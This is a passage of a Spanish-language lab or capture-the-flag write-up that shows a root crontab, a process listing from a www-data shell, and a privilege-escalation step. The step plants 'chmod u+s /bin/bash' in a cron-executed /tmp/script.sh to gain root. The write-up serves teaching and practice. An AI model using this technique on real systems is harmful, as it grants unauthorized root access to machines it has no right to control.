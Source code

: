 ```
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

#*/1 * * * * chmod +r /var/spool/cron/crontabs/root
/opt/update.sh
/tmp/script.sh
```

Vemos que `root.sh` es un script y no un `crontab` por lo que vamos a ver que se esta ejecutando a nivel de sistema:

```shell
ps aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2800  1792 ?        Ss   13:10   0:00 /bin/sh -c service apache2 start && service cron start && while true; do /var/spool/cron/c
root          24  0.0  0.2 203476 21832 ?        Ss   13:10   0:00 /usr/sbin/apache2 -k start
www-data      29  0.0  0.1 203720 15780 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      30  0.0  0.1 203548 14756 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      31  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      32  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      33  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
root          41  0.0  0.0   3808  1796 ?        Ss   13:10   0:00 /usr/sbin/cron -P
www-data      47  0.0  0.1 203508  9636 ?        S    13:10   0:00 /usr/sbin/apache2 -k start
www-data      48  0.0  0.0   2800  1792 ?        S    13:11   0:00 sh -c sh
www-data      49  0.0  0.0   2800  1792 ?        S    13:11   0:00 sh
www-data      51  0.0  0.0   2716  1792 ?        S    13:11   0:00 script /dev/null -c bash
www-data      52  0.0  0.0   2800  1664 pts/0    Ss   13:11   0:00 sh -c bash
www-data      53  0.0  0.0   4588  3584 pts/0    S    13:11   0:00 bash
root          72  0.0  0.0   2696  1536 ?        S    13:12   0:00 sleep 60
www-data      76  0.0  0.0   7888  3968 pts/0    R+   13:12   0:00 ps -aux
```

Por lo que vemos esta ejecutando el `root.sh` cada minuto, pero como bien hemos visto tambien esta ejecutando a la vez el `/tmp/script.sh` por lo que podremos salir con `exit` del usuario y crearlo con `www-data` para que no nos expulse.

```shell
nano /tmp/script.sh

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```
